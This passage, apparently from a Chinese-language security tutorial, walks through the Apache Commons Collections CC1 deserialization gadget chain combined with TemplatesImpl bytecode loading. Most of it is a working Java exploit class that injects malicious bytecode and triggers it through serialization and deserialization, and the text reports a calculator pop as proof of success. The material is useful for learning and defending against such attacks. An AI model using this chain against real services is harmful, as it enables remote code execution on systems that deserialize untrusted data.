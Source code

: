 ```java=
}
```
最后一句，传入 chainedTransformer.transform(1) 是因为前面我们定义了 new ConstantTransformer(templates)，这个类是需要我们传参的，传入 1 即可。

![](https://i.imgur.com/JIDBsNV.png)

OK，弹计算器成功，接下来是把 CC1 链的前半部分拿进去。

### CC1 Templates exp
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CC1TemplatesEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 // templates.newTransformer();  
  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates),  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 //   chainedTransformer.transform(1);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 hashMap.put("value","drunkbaby");  
 Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 aihConstructor.setAccessible(true);  
 Object o = aihConstructor.newInstance(Target.class, transformedMap);  
 // 序列化反序列化  
 serialize(o);  
 unserialize("ser.bin");  
```